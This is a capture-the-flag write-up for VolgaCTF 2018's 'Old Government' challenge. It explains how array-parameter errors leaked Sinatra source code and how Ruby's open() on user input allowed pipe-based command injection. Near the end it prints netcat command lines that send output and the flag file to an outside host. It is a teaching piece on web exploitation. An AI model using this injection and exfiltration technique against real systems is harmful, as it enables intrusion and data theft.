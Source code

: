 ```yaml
---
layout: post
title: volgactf 2018 - Old Government
author:
  name: onionpsy
  github: onionpsy
---
```


We started by checking the link on the header and we saw that an `id` is passed in the url with the id of the page: `page?id=36`. After some tries we found that we could crash the application by passing id as an array, like that : `page?id[]=36`.

```ruby
NoMethodError at /page
undefined method `to_i' for ["36"]:Array Did you mean? to_s to_a to_h
```

It gave us info that the website is powered by Sinatra, a ruby web framework.

On the backtrace, we could see part of the code.

### articles.erb
```ruby
            case @id.to_i

    when 2
      erb :page2
    when 5
      erb :page5
    when 18
      erb :page18
    when 23
```

### app.rb
```ruby

        headers "Server" => ""
      	erb :index
      end

      get '/page' do
      	@id = params[:id]
        headers "Server" => ""

      	erb :articles

      end

      post '/page' do
      	@id = params[:id]
        headers "Server" => ""
      	erb :articles
      end
```

After a few tries on the pages, we found that the page with the id 18 has a form with 2 fields. One is waiting a valid url and the other is optional. We used once again the `page?id[]=36` trick but through a POST this time. This gave us more informations about the code. The most interesting one is this function:

```ruby
  def siteValidator(site)
    begin
  	  r = open(site, :allow_redirections => :all)
	(...)
```

Judging by the name it seems that this one is ran on the site field of the post query. Judging by ()[https://www.owasp.org/index.php/Ruby_on_Rails_Cheatsheet], `open` can be actually used to inject command.
After some tries we can see that it works:
 * `?id=| ls` show validated
 * s`?id=| aaaa` show error

But because we don't have any sort of output, we decided to create a reverse shell using netcat (present on the server) using this syntax: `| <command> | netcat <ip> <port>`

After some directory listing, we saw the flag file:
`| cat ../../flag | netcat <ip> <port>`

Done!
